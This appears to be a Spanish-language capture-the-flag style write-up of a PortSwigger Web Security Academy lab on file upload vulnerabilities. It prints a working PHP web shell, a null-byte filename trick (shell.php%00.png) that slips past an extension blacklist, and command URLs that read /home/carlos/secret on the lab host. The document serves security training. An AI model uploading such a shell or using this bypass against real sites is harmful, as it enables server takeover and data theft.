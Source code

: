```yaml
---
title: File Upload Vulnerabilities Lab 5
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via obfuscated file extension
image:
  path: /assets/img/File-Upload-Vulnerabilities-Lab-5/Portswigger.png
---
```


## Skills

- Web shell upload via obfuscated file extension

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, ciertas `extensiones` de `archivo` están `blacklisteadas`, pero esta defensa puede ser `eludida` usando una `clásica técnica` de `ofuscación`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_5.png)

Subimos el archivo nuevamente y capturamos la petición con Burpsuite, el payload va a ser `shell.php%00.png`, las versiones de php inferiores a la 5.4 son vulnerables a null byte injection `%00`, lo que hace que ignore lo que hay detrás de él y no se interprete

```
Content-Disposition: form-data; name="avatar"; filename="shell.php%00.png"
Content-Type: application/x-php

<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Vemos que el archivo php se ha subido correctamente y que seha subido con el nombre shell.php ignorando lo que hay detrás del null byte `%00`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_6.png)

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_7.png)

Si accedemos a `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php%00.png?cmd=whoami` vemos que nos da un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_8.png)

Sin embargo, sin accedemos a `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=whoami` vemos que nos ejecuta el comando

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_9.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_10.png)

Obtenemos el contenido del archivo secret `https://0a8000880480dca9801485ed00820059.web-security-academy.net/files/avatars/shell.php?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_11.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-5/image_12.png)
